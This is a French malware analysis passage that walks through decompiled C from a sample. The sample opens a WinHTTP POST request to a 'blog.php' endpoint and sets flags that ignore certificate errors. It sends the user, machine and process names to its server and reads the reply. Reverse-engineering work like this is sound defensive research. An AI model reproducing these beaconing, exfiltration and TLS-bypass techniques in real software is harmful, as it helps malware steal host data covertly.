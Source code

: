 ```c
GetEncryptedDataOf_Request_POST(&var_299, &encrypted_POST);
int64_t hRequest;
int64_t r9_2;
hRequest = WinHttpOpenRequest(hConnect, sub_7ffa1bc4ca70(&encrypted_POST), name_blogphp, 0, 0, 0, 0x800000);
```

Il configure la requête HTTP pour ignorer les erreurs SSL/TLS :

```c
int32_t var_2a0 = 0x3300;
...
GetEncryptedDataOf_WinHttpSetOption(&var_2c1, &var_2c0);
void* name_WinHttpSetOption = GetDecryptedData(&var_2c0);
void var_2f1;
void var_2f0;
GetEncryptedDataOf_winhttp_4(&var_2f1, &var_2f0);
void* name_winhttp_4;
int64_t r8_4;
name_winhttp_4 = DecryptData_4(&var_2f0);
ResolveFunction(name_winhttp_4, name_WinHttpSetOption, r8_4, r9_2)(hRequest, 0x1f, &var_2a0, 4);
```
Les flags sont les suivants :

```text
0x3300 = 0x3000 | 0x0200 | 0x0100
       = SECURITY_FLAG_IGNORE_CERT_DATE_INVALID
         | SECURITY_FLAG_IGNORE_CERT_CN_INVALID
         | SECURITY_FLAG_IGNORE_UNKNOWN_CA
```

Ensuite, il envoie la requête avec `WinHttpSendRequest` avec des informations suplémentaires (nom de l'utilisateur, de la machine et du processus, et une chaîne de charactère hexadécimal, ainsi que d'autres choses que je n'ai pas trouvées) :

```c
GetEncryptedDataOf_WinHttpSendRequest(&var_319, &var_318);
void* name_WinHttpSendRequest = DecryptData_7(&var_318);
void var_349;
void var_348;
GetEncryptedDataOf_winhttp_5(&var_349, &var_348);
void* name_winhttp_5;
int64_t r8_6;
name_winhttp_5 = DecryptData_4(&var_348);
int32_t var_818 = 0x648;
int64_t success_request = ResolveFunction(name_winhttp_5, name_WinHttpSendRequest, r8_6, r9_3)(hRequest, 0, 0xffffffff, &data_7ffa1bc6ab40, 0x648, 0x648, 0);
```

Puis, il réceptionne la réponse du serveur :

```c
GetEncryptedDataOf_WinHttpReceiveResponse(&var_371, &var_370);
void* name_WinHttpReceiveResponse = DecryptData_9(&var_370);
void var_3a1;
void var_3a0;
GetEncryptedDataOf_winhttp_6(&var_3a1, &var_3a0);
void* name_winhttp_6;
int64_t r8_7;
name_winhttp_6 = DecryptData_4(&var_3a0);
int64_t get_response = ResolveFunction(name_winhttp_6, name_WinHttpReceiveResponse, r8_7, success_request)(hRequest, 0);
```
